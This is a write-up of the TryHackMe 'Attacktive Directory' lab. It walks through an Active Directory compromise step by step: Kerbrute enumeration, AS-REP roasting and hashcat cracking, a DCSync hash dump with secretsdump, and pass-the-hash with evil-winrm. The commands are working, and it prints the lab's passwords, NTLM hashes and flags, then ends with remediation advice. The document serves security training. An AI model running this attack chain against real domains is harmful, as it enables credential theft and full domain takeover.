






# TryHackMe — Attacktive Directory | Full Write-up

> **Platform:** TryHackMe  
> **Room:** Attacktive Directory  
> **Target:** `[IP]`  
> **Domain:** `spookysec.local`  
> **Difficulty:** Medium  
> **Date:** October 29, 2026  

---

## Table of Contents

1. [Introduction](#introduction)
2. [Attack Chain Overview](#attack-chain-overview)
3. [Task 3 — Initial Enumeration](#task-3--initial-enumeration)
   - [Port Scanning with RustScan + Nmap](#port-scanning-with-rustscan--nmap)
   - [SMB Enumeration with enum4linux](#smb-enumeration-with-enum4linux)
4. [Task 4 — Kerberos User Enumeration (Kerbrute)](#task-4--kerberos-user-enumeration-kerbrute)
5. [Task 5 — AS-REP Roasting](#task-5--as-rep-roasting)
   - [Extracting AS-REP Hashes](#extracting-as-rep-hashes)
   - [Cracking with Hashcat](#cracking-with-hashcat)
6. [Task 6 — Lateral Movement via SMB](#task-6--lateral-movement-via-smb)
7. [Task 7 — DCSync Attack (secretsdump)](#task-7--dcsync-attack-secretsdump)
8. [Task 8 — Pass-the-Hash with Evil-WinRM](#task-8--pass-the-hash-with-evil-winrm)
9. [Task 9 — Capturing the Flags](#task-9--capturing-the-flags)
10. [Remediation](#remediation)
11. [Key Takeaways](#key-takeaways)

---

## Introduction

This room walks through a complete Active Directory attack chain against a Windows Server environment. Starting from zero credentials, we exploit misconfigurations in Kerberos pre-authentication, abused service accounts, and overprivileged backup accounts to achieve full domain compromise.

**Tools used:**
- `rustscan` + `nmap` — port scanning
- `enum4linux` — SMB/LDAP enumeration
- `kerbrute` — Kerberos user enumeration
- `impacket/GetNPUsers.py` — AS-REP Roasting
- `hashcat` — password cracking
- `smbclient` — SMB share access
- `impacket/secretsdump.py` — DCSync / NTDS extraction
- `evil-winrm` — Pass-the-Hash shell

---

## Attack Chain Overview

```
rustscan / nmap / enum4linux
   └─► kerbrute userenum  →  valid users: svc-admin, backup
        └─► GetNPUsers.py  →  AS-REP Roasting  →  krb5asrep hash
             └─► hashcat -m 18200  →  svc-admin : management2005
                  └─► smbclient  →  backup_credentials.txt (base64)
                       └─► decode  →  backup : backup2517860
                            └─► secretsdump.py -just-dc  →  NTDS hashes (DCSync)
                                 └─► evil-winrm -H  →  Administrator shell
                                      └─► root.txt ✓
```

---

## Task 3 — Initial Enumeration

### Port Scanning with RustScan

We begin with a fast scan using **RustScan** to discover all open ports.

```bash
rustscan -a [IP] -- -sC -sV
```

**Open ports discovered:**

| Port | Service | Role |
|------|---------|------|
| 53 | DNS (Simple DNS Plus) | Domain name resolution |
| 80 | HTTP (Microsoft IIS 10.0) | Web server |
| 88 | Kerberos | AD authentication |
| 135 | MSRPC | Remote procedure calls |
| 139 / 445 | NetBIOS / SMB | File sharing |
| 389 / 636 | LDAP / LDAPS | Directory service |
| 464 | kpasswd5 | Kerberos password change |
| 593 | RPC over HTTP | RPC transport |
| 3268 / 3269 | LDAP Global Catalog | Forest-wide queries |
| 3389 | RDP | Remote Desktop |
| 5985 | WinRM (HTTP) | Remote management |
| 9389 | .NET Message Framing | AD Web Services |

**Key observations from the Nmap output:**

- The LDAP banner confirms the domain: **`spookysec.local`**
- The RDP certificate reveals the full hostname: **`AttacktiveDirectory.spookysec.local`**
- The RDP NTLM info leaks the NetBIOS domain name: **`THM-AD`** and computer name: **`ATTACKTIVEDIREC`**
- Port **5985** is open — WinRM is available for remote shell access once we have credentials
- SMB signing is **enabled and required** (`smb2-security-mode: Message signing enabled and required`)

```
rdp-ntlm-info:
  Target_Name: THM-AD
  NetBIOS_Domain_Name: THM-AD
  NetBIOS_Computer_Name: ATTACKTIVEDIREC
  DNS_Domain_Name: spookysec.local
  DNS_Computer_Name: AttacktiveDirectory.spookysec.local
  Product_Version: 10.0.17763
```



> **Note:** The OS version `10.0.17763` corresponds to **Windows Server 2019**.

---

### SMB Enumeration with enum4linux

```bash
enum4linux -a [IP]
```

**Results:**

| Item | Value |
|------|-------|
| Tool for ports 139/445 | `enum4linux` |
| Domain Name | `THM-AD` |
| Domain SID | `S-1-5-21-3591857110-2884097990-301047963` |
| Invalid TLD used | `.local` |

**Users discovered via RID cycling (no credentials required):**

```
Administrator (RID 500)
Guest (RID 501)
krbtgt (RID 502)
ATTACKTIVEDIREC$ (RID 1000)
```


## Task 4 — Kerberos User Enumeration (Kerbrute)



This allows username enumeration **without triggering account lockout** because no passwords are tested.

```bash
kerbrute userenum \
  --dc [IP] \
  -d spookysec.local \
  userlist.txt \
  -o valid_users.txt
```

**Notable accounts found:**

| Account | Significance |
|---------|-------------|
| `svc-admin` | Service account — potential AS-REP Roasting target |
| `backup` | Backup account — likely has elevated privileges |



---

## Task 5 — AS-REP Roasting

### What is AS-REP Roasting?

When a user account has the flag **`UF_DONT_REQUIRE_PREAUTH`** set (i.e., "Do not require Kerberos preauthentication"), an attacker can request a TGT (Ticket-Granting Ticket) from the KDC **without knowing the user's password**. The KDC responds with an `AS-REP` message that contains data encrypted with a key derived from the user's password. This encrypted blob can be cracked offline.

### Extracting AS-REP Hashes

```bash
python3 /opt/impacket/examples/GetNPUsers.py spookysec.local/ \
  -dc-ip [IP] \
  -usersfile valid_users.txt \
  -no-pass \
  -format hashcat \
  -outputfile asrep_hashes.txt
```

**Hash obtained for `svc-admin`:**

```
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:<encrypted_data>
```



| Question | Answer |
|----------|--------|
| Account requestable without a password | `svc-admin` |
| Hash type | `Kerberos 5 AS-REP etype 23` |
| Hashcat mode | `18200` |

---

### Cracking with Hashcat

```bash
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```

**Result:**

```
$krb5asrep$23$svc-admin@SPOOKYSEC.LOCAL:...:management2005
```

| Credential | Value |
|-----------|-------|
| Username | `svc-admin` |
| Password | `management2005` |

---

## Task 6 — Lateral Movement via SMB

With valid credentials for `svc-admin`, we can browse accessible SMB shares.

```bash
smbclient -L //[IP] -U svc-admin%management2005
```


We discover a share containing a file with base64-encoded credentials:

```bash
smbclient //[IP]/backup -U svc-admin
smb: \> get backup_credentials.txt
```

**Decoding the credentials:**

```bash
base64 -d backup_credentials.txt
```

**Decoded output:**

| Credential | Value |
|-----------|-------|
| Username | `backup` |
| Password | `backup2517860` |

> **Why this is critical:** The `backup` account has **DS-Replication-Get-Changes** and **DS-Replication-Get-Changes-All** rights — it can perform a **DCSync** attack to dump all domain hashes.

---

## Task 7 — DCSync Attack (secretsdump)

### What is DCSync?

DCSync abuses the **DRSUAPI** replication protocol. A domain controller periodically replicates data with other DCs. An account with replication permissions can impersonate a DC and request all password hashes from NTDS.DIT without ever touching the disk of the target machine.



```bash
python3 /opt/impacket/examples/secretsdump.py \
  spookysec.local/backup:backup2517860@[IP] \
  -just-dc
```

**Extracted hashes (relevant accounts):**

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:0e0363213e37b94221497260b0bcb4fc:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:0e2eb8158c27bed09861033026be4c21:::
svc-admin:1114:...:fc0f1e5359e372aa1f69147375ba6809:::
backup:1118:...:19741bde08e135f4b40f1ca9aab45538:::
```

> **Note:** `aad3b435b51404eeaad3b435b51404ee` is the **empty LM hash** — only the NTLM part (after the third colon) matters.

| Question | Answer |
|----------|--------|
| Method used to dump NTDS.DIT | `DRSUAPI` |
| Administrator NTLM hash | `0e0363213e37b94221497260b0bcb4fc` |
| Attack method (no password needed) | `Pass The Hash` |
| Evil-WinRM hash flag | `-H` |

---

## Task 8 — Pass-the-Hash with Evil-WinRM

### What is Pass-the-Hash?

In NTLM authentication, the password hash **is** the credential — it is used directly in the challenge-response exchange without needing to know the plaintext password. We can therefore authenticate as `Administrator` using only the NTLM hash.

```bash
evil-winrm -i [IP] \
            -u Administrator \
            -H 0e0363213e37b94221497260b0bcb4fc
```

We now have a full PowerShell shell as `Administrator` on the Domain Controller.

---

## Task 9 — Capturing the Flags

```powershell
# svc-admin flag
cat C:\Users\svc-admin\Desktop\user.txt.txt

# backup flag
cat C:\Users\backup\Desktop\PrivEsc.txt

# Administrator flag
cat C:\Users\Administrator\Desktop\root.txt
```

| Account | Flag |
|---------|------|
| `svc-admin` | `TryHackMe{K3rb3r0s_Pr3_4uth}` |
| `backup` | `TryHackMe{B4ckM3UpSc0tty!}` |
| `Administrator` | `TryHackMe{4ctiveD1rectoryM4st3r}` |

---

## Remediation

| Vulnerability | Impact | Fix |
|--------------|--------|-----|
| `DONT_REQUIRE_PREAUTH` on `svc-admin` | AS-REP Roasting → offline hash cracking | Disable the flag; enforce strong passwords for all service accounts |
| Base64 credentials in SMB share | Lateral movement to `backup` account | Never store secrets on file shares; use a secrets manager (e.g., HashiCorp Vault, LAPS) |
| `backup` account with DS-Replication rights | Full DCSync → all domain hashes exposed | Restrict `DS-Replication-Get-Changes` to DC machine accounts only; review privileged group membership |
| Reusable NTLM hashes | Pass-the-Hash → domain takeover | Enforce LAPS for local admin accounts; implement AD Tiering; consider Windows Defender Credential Guard |
| `.local` TLD | DNS confusion / mDNS poisoning | Use a publicly registered subdomain (e.g., `corp.example.com`) |
| Anonymous RID cycling | User enumeration without credentials | Harden SMB null session settings via Group Policy |


## Key Takeaways

1. **Kerberos pre-authentication is a critical control.** Disabling it on any account exposes that account to offline hash cracking with no interaction from the account holder.

2. **Secrets in SMB shares are a catastrophic misconfiguration.** Even if a share requires authentication, a compromised low-privilege account can expose high-privilege credentials.

3. **Replication rights are as powerful as Domain Admin.** Any account with DCSync capability can extract every hash in the domain. Treat these rights with the same care as membership in `Domain Admins`.

4. **Pass-the-Hash renders password cracking unnecessary** once hashes are obtained. Rotating passwords alone is not enough — implement tiering and Credential Guard to mitigate this.

5. **Information leaked at the network level** (NTLM banners, LDAP, RDP certificates) gives attackers the domain name, computer names, and OS version before any credential is needed.

---

*Write-up by SubZer030 — TryHackMe: Attacktive Directory*